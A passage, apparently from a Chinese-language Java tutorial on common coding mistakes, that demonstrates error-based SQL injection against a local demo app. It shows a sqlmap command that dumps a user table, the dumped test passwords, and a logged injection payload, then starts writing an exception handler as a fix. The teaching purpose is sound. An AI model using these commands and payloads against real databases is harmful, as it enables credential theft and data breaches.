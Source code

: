 | r                  |

| userdata           |

+--------------------+



第三步，查询 userdata 的数据：

python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test -D "common_mistakes" -T "userdata" --dump



你看，用户密码信息一览无遗。当然，你也可以继续查看其他表的数据：

Database: common_mistakes

Table: userdata

[2 entries]

+----+-------+----------+

| id | name  | password |

+----+-------+----------+

| 1  | test1 | haha1    |

| 2  | test2 | haha2    |

+----+-------+----------+



在日志中可以看到，sqlmap 实现拖库的方式是，让 SQL 执行后的出错信息包含字段内容。注意看下错误日志的第二行，错误信息中包含 ID 为 2 的用户的密码字段的值“haha2”。这，就是报错注入的基本原理：

[13:22:27.375] [http-nio-45678-exec-10] [ERROR] [o.a.c.c.C.[.[.[/].[dispatcherServlet]:175 ] - Servlet.service() for servlet [dispatcherServlet] in context with path [] threw exception [Request processing failed; nested exception is org.springframework.dao.DuplicateKeyException: StatementCallback; SQL [SELECT id,name FROM userdata WHERE name LIKE '%test'||(SELECT 0x694a6e64 WHERE 3941=3941 AND (SELECT 9927 FROM(SELECT COUNT(*),CONCAT(0x71626a7a71,(SELECT MID((IFNULL(CAST(password AS NCHAR),0x20)),1,54) FROM common_mistakes.userdata ORDER BY id LIMIT 1,1),0x7170706271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'%']; Duplicate entry 'qbjzqhaha2qppbq1' for key '<group_key>'; nested exception is java.sql.SQLIntegrityConstraintViolationException: Duplicate entry 'qbjzqhaha2qppbq1' for key '<group_key>'] with root cause

java.sql.SQLIntegrityConstraintViolationException: Duplicate entry 'qbjzqhaha2qppbq1' for key '<group_key>'



既然是这样，我们就实现一个 ExceptionHandler 来屏蔽异常，看看能否解决注入问题：

@ExceptionHandler

public void handle(HttpServletRequest req, HandlerMethod method, Exception ex) {

